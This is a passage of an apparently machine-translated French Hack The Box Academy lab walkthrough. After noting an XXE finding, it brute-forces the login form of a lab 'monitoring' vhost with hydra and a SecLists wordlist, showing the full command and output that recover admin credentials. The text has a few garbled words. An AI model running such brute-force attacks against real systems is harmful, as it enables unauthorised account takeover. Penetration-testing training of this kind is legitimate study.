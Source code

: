 
![texte](https://academy.hackthebox.com/storage/modules/163/xxe_passwd.png)

Inscrivons une autre découverte à haut risque, `Injection d'entité externe XML (XXE)` (nous avons toute la liste jusqu'à présent !), Et passons au dernier vhost/sous-domaine.

* * * * *

monitoring.inlanefreight.local
------------------------------

Nous avons découvert le `monitoring` vhost plus tôt, nous ne reviendrons donc pas◊tourbe le processus. Nous avons utilisé ffuf, mais cette énumération peut également être effectuée avec d'autres outils. Essayez `GoBuster` pour vous familiariser avec plus d'outils. La navigation vers `http://monitoring.inlanefreight.local` entraîne une redirection vers `/login.php`. Nous pouvons essayer des charges utiles de contournement d'authentification et des paires d'informations d'identification faibles courantes, mais nous n'allons nulle part, nous recevons simplement l'erreur "Identifiants non valides !" à chaque fois. Puisqu'il s'agit d'un formulaire de connexion, il vaut la peine d'explorer davantage afin que nous puissions le fuzzer un peu avec Burp Intruder pour voir si nous pouvons provoquer un message d'erreur indiquant une vulnérabilité d'injection SQL, mais nous n'y parvenons pas.

Une analyse de la requête POST et de la réponse dans Burp Suite ne donne rien d'intéressant. À ce stade, nous avons épuisé presque toutes les attaques Web possibles et revenons au contenu du module, en nous souvenant du module [Login Brute Forcing](https://academy.hackthebox.com/module/57/section/503) qui se concentre sur l'outil `hydra`. Cet outil peut être utilisé pour forcer brutalement les formulaires de connexion HTTP, alors essayons. Nous utiliserons la même [liste de mots](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/darkweb2017-top100.txt) du référentiel GitHub `SecLists` comme précédemment.

Nous allons configurer `hydra` pour effectuer l'attaque par force brute, en spécifiant le message d'erreur `Identifiants invalides !` pour filtrer les tentatives de connexion non valides. Nous obtenons un résultat pour la paire d'informations d'identification `admin:12qwaszx`, un mot de passe commun de "promenade au clavier" facile à mémoriser mais qui peut être très facilement forcé/craqué.

```
dsgsec@htb[/htb]$ hydra -l admin -P ./passwords.txt monitoring.inlanefreight.local http-post-form "/login.php:username=admin&password=^PASS^:Identifiants invalides !"

Hydra v9.1 (c) 2020 par van Hauser/THC & David Maciejak - Veuillez ne pas utiliser dans les organisations militaires ou de services secrets, ou à des fins illégales (ceci n'est pas contraignant, ces *** ignorent de toute façon les lois et l'éthique).

Hydra (https://github.com/vanhauser-thc/thc-hydra) à partir du 2022-06-21 11:32:17
[DONNÉES] max 16 tâches par 1 serveur, 16 tâches au total, 99 tentatives de connexion (l:1/p:99), ~7 tentatives par tâche
[DATA] attaquant http-post-form://monitoring.inlanefreight.local:80/login.php:username=admin&password=^PASS^:Identifiants invalides !
[80][http-post-form] hôte : monitoring.inlanefreight.local identifiant : admin mot de passe : 12qwaszx
1 cible sur 1 complétée avec succès, 1 mot de passe valide trouvé
Hydra (https://github.com/vanhauser-thc/thc-hydra) terminé le 2022-06-21 11:32:22

```

Une fois connecté, on nous présente une sorte de console de surveillance. Si nous tapons `help`, une liste de commandes s'affiche. Cela ressemble à un environnement shell restreint pour effectuer des tâches limitées et quelque chose de très dangereux qui ne devrait pas être exposé à l'extérieur. La dernière classe de vulnérabilités enseignée dans le `Chemin de rôle de testeur de pénétration` que nous n'avons pas encore couvert est [Injections de commandes](https://academy.hackthebox.com/module/details/109).
